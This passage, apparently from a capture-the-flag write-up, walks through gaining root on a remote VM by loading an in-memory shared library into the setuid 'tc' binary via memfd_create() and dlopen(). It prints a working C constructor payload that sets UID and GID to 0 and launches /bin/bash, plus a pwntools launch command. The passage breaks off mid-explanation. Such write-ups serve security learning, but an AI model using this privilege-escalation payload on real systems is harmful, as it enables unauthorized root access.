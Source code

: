 use PWNLIB_NOTERM=1 before launching it, to have a better remote terminal display, and not garbage:

```shell
 PWNLIB_NOTERM=1 python3 upload.py
```

ok we are progressing 🥵 , slowly, slowly..

### 3 - Now, go back to the privilege escalation.

Ok so now, we are able to upload an elf executable binary, and execute it on the remote VM. That's good.

So how can we inject a custom shared library in the `tc` setuid binary, knowing that we can not write any files, anywhere in the VM.

Well the solution is again `memfd_create()`. We can create a shared library fully mapped in memory without touching disk.

This shared library is a simple classic payload for privilege escalation:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <grp.h>

// Constructor function to be called when the library is loaded
void __attribute__((constructor)) exploit() {
    // Print a message indicating the library was loaded
    printf("Exploit triggered!\n");
    // Execute /bin/bash with root privileges (since tc is setuid)
    setuid(0);      // Set effective UID to root
    setreuid(0, 0); // Set real and effective UID to root
    setgid(0);      // Set effective GID to root
    setregid(0, 0); // Set real and effective GID to root
    setgroups(0, NULL); // Remove all supplementary groups

    execve("/bin/bash", NULL, NULL); // Launch a shell
}
```

When it will be loaded by `dlopen()` in the `get_exec_kind()` function,  the `constructor`function will be executed automatically.

And we will get instant root rights.

The shared library mapped in memory with `memfd_create()`will be accessible via path `/proc/<pid>/fd/<memfd filedescriptor>`

but wait.. there is a problem.

The `get_exec_kind()` function will construct the path of shared lib like this:

```c
char buf[256];
...
snprintf(buf, sizeof(buf), "%s/e_%s.so", get_tc_lib(), name);
```
